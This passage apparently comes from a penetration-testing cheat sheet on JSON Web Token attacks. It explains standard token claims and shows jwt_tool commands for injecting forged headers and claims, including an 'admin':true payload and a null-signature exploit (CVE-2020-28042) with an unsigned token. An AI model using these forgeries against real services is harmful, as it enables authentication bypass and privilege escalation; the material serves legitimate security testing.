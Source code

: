 | PS384 | RSASSA-PSS using SHA-384 and MGF1 with SHA-384 | Optional      |
| PS512 | RSASSA-PSS using SHA-512 and MGF1 with SHA-512 | Optional      |
| none	| No digital signature or MAC performed          | Required      |

Inject headers with [ticarpi/jwt_tool](#): `python3 jwt_tool.py JWT_HERE -I -hc header1 -hv testval1 -hc header2 -hv testval2`
 

### Payload

```json
{
    "sub":"1234567890",
    "name":"Amazing Haxx0r",
    "exp":"1466270722",
    "admin":true
}
```

Claims are the predefined keys and their values:
- iss: issuer of the token
- exp: the expiration timestamp (reject tokens which have expired). Note: as defined in the spec, this must be in seconds.
- iat: The time the JWT was issued. Can be used to determine the age of the JWT
- nbf: "not before" is a future time when the token will become active.
- jti: unique identifier for the JWT. Used to prevent the JWT from being re-used or replayed.
- sub: subject of the token (rarely used)
- aud: audience of the token (also rarely used)

Inject payload claims with [ticarpi/jwt_tool](#): `python3 jwt_tool.py JWT_HERE -I -pc payload1 -pv testval3`


## JWT Signature

### JWT Signature - Null Signature Attack (CVE-2020-28042)

Send a JWT with HS256 algorithm without a signature like `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.`

**Exploit**:
```ps1
python3 jwt_tool.py JWT_HERE -X n
```

**Deconstructed**:
```json
{"alg":"HS256","typ":"JWT"}.
{"sub":"1234567890","name":"John Doe","iat":1516239022}
```


### JWT Signature - Disclosure of a correct signature (CVE-2019-7644)
